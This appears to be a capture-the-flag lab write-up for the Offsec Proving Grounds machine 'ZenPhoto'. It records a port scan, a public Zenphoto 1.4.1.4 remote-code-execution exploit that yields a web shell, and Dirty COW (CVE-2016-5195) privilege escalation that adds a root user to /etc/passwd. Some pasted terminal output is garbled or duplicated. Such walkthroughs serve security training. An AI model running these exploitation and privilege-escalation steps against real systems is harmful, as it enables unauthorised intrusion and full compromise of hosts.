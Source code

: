 ```yaml
---
title: "Proving grounds Practice: ZenPhoto"
layout: post
date: 2024-04-28 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- 
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


# NMAP

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
23/tcp   open  ipp     CUPS 1.4
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
```

## 80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))

http://192.168.209.41/test/

```sh
[21:42:10] Starting: 
[21:42:12] 200 -   75B  - /index
[21:42:22] 301 -  315B  - /test  ->  http://192.168.209.41/test/
```

Upon reviewing the page source it was found that the website is using zenphoto version 1.4.1.4 [8157] (Official Build). The version is vulnerable to [Remote Code Execution Vulnerability](https://www.exploit-db.com/exploits/18083).

```sh
naveenj@hackerspace:[21:58]~/proving_grounds/ZenPhoto/exploit$ php exploit 192.168.209.41 /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# 
```

## Privilege Escalation
   
Vulnerable to [CVE-2016-5195] dirtycow 2 exploit.

```text
Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Exposure: highly probable
Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,[ ubuntu=10.04{kernel:2.6.32-21-generic} ],ubuntu=16.04{kernel:4.4.0-21-generic}
Download URL: https://www.exploit-db.com/download/40839
ext-url: https://www.exploit-db.com/download/40847
Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

### Exploitation

Find the exploit [here](https://www.exploit-db.com/exploits/40839).

```sh
ww-data@offsecsrv:/tmp$ ls
dirty.c  lp.sh	vmware-root
www-data@offsecsrv:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@offsecsrv:/tmp$ ls
dirty  dirty.c	lp.sh  vmware-root
www-data@offsecsrv:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b7860000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@offsecsrv:/tmp$ cat /emadvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
tc
```

Check /etc/passwd file for the root user presence.

```sh
www-data@offsecsrv:/tmp$ cat /etc/passwd
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash	#user created
/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).